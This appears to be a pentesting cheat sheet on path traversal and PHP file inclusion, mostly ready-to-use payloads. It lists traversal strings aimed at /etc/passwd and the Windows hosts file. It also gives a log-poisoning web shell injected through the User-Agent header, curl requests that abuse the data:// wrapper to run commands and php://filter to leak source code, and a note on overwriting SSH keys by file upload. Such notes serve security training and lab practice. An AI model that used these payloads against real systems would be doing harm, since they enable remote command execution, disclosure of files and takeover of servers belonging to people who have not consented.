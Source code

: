 ### Path Traversal
#### Fuzzing

```
#Forward Slashes
../../../

#Backward Slashes
\..\..\..\

#URL Encoding
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/
```


```
#Linux File
/etc/passwd

#Windows File
C:\Windows\System32\drivers\etc\hosts
```

### File Inclusion
#### Log Poisoning

```
#Visit the log and observe what information is logged from where. Can you inject into it?
#Example Windows Host Running Apache / PHP Stack.
1. User-Agent: <?php echo system($_GET['cmd']); ?>
2. http://192.168.187.193/meteor/index.php?page=../../../../../../../../../xampp/apache/logs/access.log&cmd=dir
```
#### PHP Wrappers
##### Data

```
#allow_url_include must be set. This can be checked in the phpinfo.php file.
#This can execute commands directly.
1. curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<%3fphp%2520echo%2520system('uname+-a')%3b%3f>"
```
##### Filter

```
#Can use this to view contents of php files that are normally executed instead.
1. curl "http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/backup.php"
```

#### File Upload

```
#Sometimes it is possible to overwrite files with our own.
#Example fileupload overwriting SSH key to our own.
```

![[Pasted image 20231101191821.png]]